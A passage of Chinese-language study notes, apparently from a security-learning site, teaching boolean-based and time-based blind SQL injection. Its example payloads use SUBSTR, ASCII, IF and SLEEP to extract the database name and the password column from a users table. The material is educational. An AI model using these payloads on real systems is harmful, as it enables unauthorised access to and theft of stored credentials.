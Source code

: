传入`uname=a' or {condition}#` 可以让语句变为

```SQL
SELECT col_name(…) FROM table_name WHERE username = 'a' or {condition}#'
```

这样，当且仅当`statement`为真时，`username='a' or {condition}`才可能为真，返回`User Found`，否则必为`Not Found`(因为不存在`username='a'`的数据)。既，我们可以获取`{condition}`的结果！

用and语句构造也是同理

`SUBSTR(str, pos, len)` 可截取字符串

+ `str`参数代表待截取的字符串
+ `pos`参数代表从什么位置开始截取(下标从1开始)
+ `len`参数表示字符串截取的⻓度

`ASCII(char)`将字符转为ASCII码

那么，我们用`SUBSTR()`一位位取出要查找内容的字符，再用`ASCII()`转化为ASCII码，就能用二分法获取数据了

??? 例子
    ```SQL
    SELECT col_name(…) FROM table_name WHERE username = 'a' or ASCII(SUBSTR(DATABASE(), 1, 1))>0#'
    SELECT col_name(…) FROM table_name WHERE username = 'a' or ASCII(SUBSTR((SELECT GROUP_CONCAT(passwd) FROM users), 1, 1))>0#'
    ```

![无回显](./assets/无回显的SQL注入.png)

**利用延时**

`IF(condition, expr1, expr2)`
如果`condition`为真就执行`expr1`，反之执行`expr2`

和`SLEEP()`配合，就能通过测量响应时间来获取数据！

??? 例子
    ```SQL
    SELECT col_name(…) FROM table_name WHERE username = 'admin' and IF(ASCII(SUBSTR(DATABASE(), 1, 1))>0, SLEEP(0), SLEEP(2))#'
    ```
    如果延时超过2秒，说明条件为假，反之为真
